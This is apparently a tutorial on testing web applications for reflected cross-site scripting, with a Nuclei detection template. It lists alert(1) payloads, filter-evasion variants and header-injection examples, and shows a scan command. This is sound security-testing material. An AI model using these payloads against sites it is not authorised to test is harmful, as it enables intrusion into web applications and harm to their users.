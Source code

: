 ### **Step-by-Step XSS Testing Approach**
#### **1. Identify Input Points**
- Choose a **unique, arbitrary string** (e.g., `myxsstestdmqlwp`) that is unlikely to be affected by filters.
- Submit this string **one parameter at a time** across different pages.
- Monitor responses to see where the string appears.

#### **2. Analyze Reflected Inputs**
- If the string appears **unchanged** in the response, that parameter may be a candidate for XSS.
- If the string is **partially modified**, check if filtering or encoding is being applied.
- Test **both GET and POST** request parameters.

#### **3. Evading Filters**
- Try variations of payloads:
  - **Encoding bypass**: URL encoding (`%3Cscript%3E`), Unicode encoding, HTML entities.
  - **Breaking filters**: Using different JavaScript event handlers (`onerror=alert(1)`, `onclick=alert(1)`, etc.).
  - **Tag obfuscation**: `<img src=x onerror=alert(1)>`, `<svg onload=alert(1)>`.

#### **4. Testing HTTP Headers**
- Some applications reflect data from HTTP headers into responses. Test:
  - **Referer:** Inject payloads into `Referer: <script>alert(1)</script>`
  - **User-Agent:** Inject `<script>alert(1)</script>` into `User-Agent: Mozilla/5.0 <script>alert(1)</script>`
  - **Cookie/Header-based XSS:** If headers are reflected without proper sanitization, they can be an attack vector.

#### **5. Testing Different Contexts**
- **JavaScript Context**: Inject `";alert(1);//` inside `<script>` blocks.
- **HTML Context**: `<img src=x onerror=alert(1)>`
- **Attribute Context**: `"><svg onload=alert(1)>`
- **CSS Context**: `</style><script>alert(1)</script>`

#### **6. Automating with Burp Suite**
- Use Burp Suite’s **Intruder** to automate fuzzing.
- Use **"Change request method"** to test if a POST-based XSS works via GET.
- Use Burp’s **Active Scanner** to identify potential XSS vulnerabilities.

#### **7. Proof-of-Concept (PoC)**
- If successful, craft a PoC URL or payload.
- Try **DOM-based XSS** by injecting payloads into URLs and checking if they execute within the browser console.


**Nuclei template** for detecting reflected XSS vulnerabilities. This template injects test payloads into various parameters and checks if they are reflected in the response.  

---

### **Nuclei XSS Detection Template**
```yaml
id: xss-reflected

info:
  name: Reflected XSS Detection
  author: CyberSecPentester
  severity: high
  description: "Detects reflected XSS vulnerabilities by injecting test payloads and checking response reflections."
  tags: xss, injection, web, security

variables:
  xss_payload: "<script>alert(1)</script>"

requests:
  - method: GET
    path:
      - "{{BaseURL}}"
      - "{{BaseURL}}?q={{xss_payload}}"
      - "{{BaseURL}}?search={{xss_payload}}"
      - "{{BaseURL}}?id={{xss_payload}}"
      - "{{BaseURL}}?query={{xss_payload}}"

    matchers:
      - type: word
        words:
          - "<script>alert(1)</script>"
        part: body

  - method: POST
    path:
      - "{{BaseURL}}"
    body: "username={{xss_payload}}&password=test"

    headers:
      Content-Type: application/x-www-form-urlencoded

    matchers:
      - type: word
        words:
          - "<script>alert(1)</script>"
        part: body

  - method: GET
    path:
      - "{{BaseURL}}"

    headers:
      User-Agent: "{{xss_payload}}"
      Referer: "{{xss_payload}}"

    matchers:
      - type: word
        words:
          - "<script>alert(1)</script>"
        part: body
```

---

### **How to Use This Template**
1. **Save the template** as `xss-reflected.yaml` in the Nuclei templates directory.
2. **Run the scan** using:
   ```bash
   nuclei -t xss-reflected.yaml -u http://target.com
   ```
3. **Analyze the results** to confirm vulnerable parameters.

---

This template covers:
✅ **GET and POST parameter injection**  
✅ **Testing `User-Agent` and `Referer` headers**  
✅ **Checking reflected payloads in the response** 
